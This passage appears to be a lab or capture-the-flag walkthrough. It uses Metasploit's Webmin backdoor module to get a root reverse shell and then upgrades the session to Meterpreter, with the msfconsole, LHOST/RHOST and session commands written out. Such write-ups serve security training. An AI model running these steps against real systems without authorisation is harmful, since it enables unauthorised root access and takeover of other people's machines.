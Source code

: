 ## Running Metasploit

To run ```metasploit```, we will the command:
```
msfconsole -q
```
<br>

We will then searh for the ```Webmin``` exploit.
<br>
<img width="1738" height="480" alt="image" src="https://github.com/user-attachments/assets/85d9bb52-7899-4e83-a2a7-8e186263cc89" />
<br>

Based on the description of the modules, we can deduce that the correct module to use is the module with the ID of 10:```exploit/linux/http/webmin_backdoor```. to select the exploit, we use the command:
<br>
<img width="575" height="71" alt="image" src="https://github.com/user-attachments/assets/662d982c-ada4-4662-a736-ba9a1ab48d16" />
<br>

This module will require you to configure the target IP ```(RHOSTS)``` and the listener IP ```(LHOST)``` for the reverse connection upon successful execution of the payload. This can be done by running the following commands:
```
set LHOST <IP ADDRESS OF YOUR MACHINE>
```
```
set RHOST <IP ADDRESS OF THE TARGET MACHINE>
```
<br>

You can use the ```show options``` command to verify:
<br>
<img width="1889" height="820" alt="image" src="https://github.com/user-attachments/assets/48848ed7-5665-497c-b62e-f630059a0f1a" />
<br>

let's run it now using the ```exploit``` command:
<br>
<img width="1264" height="172" alt="image" src="https://github.com/user-attachments/assets/9da75636-0f3d-4992-a669-99e80a28768e" />
<br>

Based on the image, the exploit runs successfully and we obtain a command shell with root privileges.

## Using Meterpreter

Let's Backkground the session  using the ```Ctrl + z``` then type ```y```.
<br>
<img width="376" height="45" alt="image" src="https://github.com/user-attachments/assets/1b02b30a-32d8-4863-80b3-adf83e79de98" />
<br>

To  upgrade the command shell session to a [meterpreter](https://www.offsec.com/metasploit-unleashed/about-meterpreter/) session, We will use the command:
```
sessions -u 1
```
<br>
<img width="1220" height="184" alt="image" src="https://github.com/user-attachments/assets/c8c9cbcb-184a-41cc-be05-5753e4f71833" />
<br>




